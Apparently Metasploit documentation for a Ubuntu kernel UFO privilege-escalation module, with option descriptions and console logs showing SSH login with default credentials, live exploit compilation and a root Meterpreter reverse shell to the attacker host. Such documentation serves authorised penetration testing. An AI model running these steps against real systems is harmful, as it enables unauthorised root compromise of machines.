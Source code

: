 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).
  
The bug was initially introduced in October 2005 and patched in September 2017, potentially affecting a large
number of kernels; however this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels 
4.4.0-21 <= 4.4.0-89 (Trusty), and 4.4.0-81 <= 4.8.0-58 (Xenial), including Linux distros based on Ubuntu
such as Linux Mint.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf5 auxiliary(scanner/ssh/ssh_login) > use exploit/linux/local/ufo_privilege_escalation 
msf5 exploit(linux/local/ufo_privilege_escalation) > set verbose true
verbose => true
msf5 exploit(linux/local/ufo_privilege_escalation) > set session 1
session => 1
msf5 exploit(linux/local/ufo_privilege_escalation) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf5 exploit(linux/local/ufo_privilege_escalation) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Linux kernel version 4.4.0-31-generic is vulnerable
[*] Checking if SMAP is enabled ...
[+] SMAP is not enabled
[+] System architecture x86_64 is supported
[+] Unprivileged user namespaces are permitted
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.4UnI1EFL.c' (28356 bytes) ...
[*] Max line length is 65537
[*] Writing 28356 bytes in 2 chunks of 57414 bytes (octal-encoded), using printf
[*] Next chunk is 43454 bytes
[*] Writing '/tmp/.S6G2g9rnUj' (207 bytes) ...
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Launching exploit ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] [.] starting
[*] [.] checking kernel version
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, version looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [.] trying /proc/kallsyms...
[*] [.] trying /boot/System.map-4.4.0-31-generic...
[*] [-] open/read(/boot/System.map-4.4.0-31-generic)
[*] [.] trying syslog...
[*] [~] done, kernel addr:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Cleaning up /tmp/.S6G2g9rnUj and /tmp/.4UnI1EFL ...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:60474) at 2018-07-21 13:35:49 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
